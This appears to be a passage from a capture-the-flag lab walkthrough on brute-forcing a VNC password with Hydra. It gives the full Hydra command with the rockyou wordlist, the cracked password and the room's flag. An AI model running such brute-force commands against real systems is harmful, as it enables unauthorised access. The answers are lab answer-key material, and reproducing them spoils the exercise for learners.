



### Use Hydra to find the VNC password of the target with IP address `MACHINE_IP`. What is the password?

```bash
hydra -P /usr/share/wordlists/rockyou.txt vnc://10.10.185.111 -V -f -t 4
```



:::note
1q2w3e4r
:::

* Alternative method with nmap scripts



### Using a VNC client on the AttackBox, connect to the target of IP address `MACHINE_IP`. What is the flag written on the target’s screen? 

Connect to vnc with the credentials found in the step above



:::note
THM{I\_SEE\_YOUR\_SCREEN}
:::
